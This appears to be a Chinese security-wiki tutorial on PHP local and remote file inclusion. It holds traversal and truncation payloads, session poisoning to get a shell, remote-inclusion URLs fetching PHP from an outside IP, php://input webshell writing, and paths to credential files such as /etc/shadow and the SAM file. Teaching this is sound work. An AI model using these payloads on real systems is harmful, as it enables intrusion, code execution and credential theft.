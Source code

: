 文件包含
========================================

基础
----------------------------------------
文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致了执行了非预期的代码。

::

	<?php
	    $filename  = $_GET['filename'];
	    include($filename);
	?>

例如：
$_GET['filename']参数开发者没有经过严格的过滤，直接带入了include的函数，攻击者可以修改$_GET['filename']的值，执行非预期的操作。

考虑常用的几种包含方式为:

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用 ``/proc/self/environ``

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

触发Sink
----------------------------------------
- PHP文件包含函数有以下四种
    - include
        - 在包含过程中出错会报错，不影响执行后续语句
    - include_once
        - 仅包含一次
    - require
        - 在包含过程中出错，就会直接退出，不执行后续语句
    - require_once

本地文件包含漏洞
----------------------------------------

- 无限制本地文件包含漏洞
- session文件包含漏洞
	利用条件：session的存储位置可以获取。(phpinfo()或猜测,如linux下默认存储在/var/lib/php/session目录下)
	示例：
	::

		<?php
		    session_start();
		    $ctfs=$_GET['ctfs'];
		    $_SESSION["username"]=$ctfs;
		?>

	漏洞分析:
	::

		此php会将获取到的GET型ctfs变量的值存入到session中。
		当访问http://www.ctfs-wiki/session.php?ctfs=ctfs 后，会在/var/lib/php/session
		目录下存储session的值。
		session的文件名为sess_+sessionid，sessionid可以通过开发者模式获取。

	|fileincludesessionid|

	所以session的文件名为sess_akp79gfiedh13ho11i6f3sm6s6。
	服务器的/var/lib/php/session目录下此文件内容为：
	::

		username|s:4:"ctfs";
		[root@c21336db44d2 session]# cat sess_akp79gfiedh13ho11i6f3sm6s6
		username|s:4:"ctfs"

	漏洞利用:

	::

		通过上面的分析，可以知道ctfs传入的值会存储到session文件中，如果存在本地文件包含漏洞，就可以通过
		ctfs写入恶意代码到session文件中，然后通过文件包含漏洞执行此恶意代码getshell。
		当访问http://www.ctfs-wiki/session.php?ctfs=<?php phpinfo();?>后，会在/var/lib/php/session目录下
		存储session的值。

- 有限制本地文件包含漏洞绕过
	- %00截断
		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

          ``http://www.ctfs-wiki.com/FI/FI.php?filename=../../../../../../../boot.ini%00`` 

	- 路径长度截断
		条件：windows OS，点号需要长于256；linux OS 长于4096
		::

			Windows下目录最大长度为256字节，超出的部分会被丢弃；
			Linux下目录最大长度为4096字节，超出的部分会被丢弃。

		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

		EXP:
		::

			http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././

	- 点号截断
		条件：windows OS，点号需要长于256

		测试代码：
		::

			<?php
			    $filename  = $_GET['filename'];
			    include($filename . ".html");
			?>

		EXP:
		::

			http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................



远程文件包含漏洞
----------------------------------------
PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，
如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

- 无限制远程文件包含漏洞
- 有限制远程文件包含漏洞绕过
	- 问号绕过
		 ``<?php include($_GET['filename'] . ".html"); ?>`` 代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀，问号绕过如下：
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?`` 
	- #号绕过
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23`` 
	- 空格绕过
		 ``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%20`` 

url编码绕过
----------------------------------------
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过。

伪协议绕过
----------------------------------------
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
	- 命令执行
		|fileincludecommand|
	- 写入webshell
		条件：php配置文件中需同时开启 allow_url_fopen 和 allow_url_include（PHP < 5.3.0）,就可以造成任意代码执行，在这可以理解成远程文件包含漏洞（RFI），即POST过去PHP代码，即可执行。如果POST的数据是执行写入一句话木马的PHP代码，就会在当前目录下写入一个木马。
		|fileincludemuma|
- Base64伪协议读取文件
	payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 
- data伪协议读取文件内容
	payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``

常见的敏感信息路径：
----------------------------------------
Windows系统

::

	c:\boot.ini // 查看系统版本
	c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
	c:\windows\repair\sam // 存储Windows系统初次安装的密码
	c:\ProgramFiles\mysql\my.ini // MySQL配置
	c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码
	c:\windows\php.ini // php 配置信息

Linux/Unix系统

::

	/etc/passwd 	//账户信息
	/etc/shadow 	//账户密码文件
	/usr/local/app/apache2/conf/httpd.conf	//Apache2默认配置文件
	/usr/local/app/apache2/conf/extra/httpd-vhost.conf	//虚拟网站配置
	/usr/local/app/php5/lib/php.ini		//PHP相关配置
	/etc/httpd/conf/httpd.conf 		//Apache配置文件
	/etc/my.conf 		//mysql配置文件
	/etc/hostname		//获取主机名
	/etc/httpd/logs/access_log		//apache配置log
	/etc/httpd/logs/error_log		//apache配置log



参考链接
----------------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_
- `lfi cheat sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_

.. |fileincludesessionid| image:: ../images/fileincludesessionid.jpg
.. |fileincludemuma| image:: ../images/fileincludemuma.jpg
.. |fileincludecommand| image:: ../images/fileincludecommand.jpg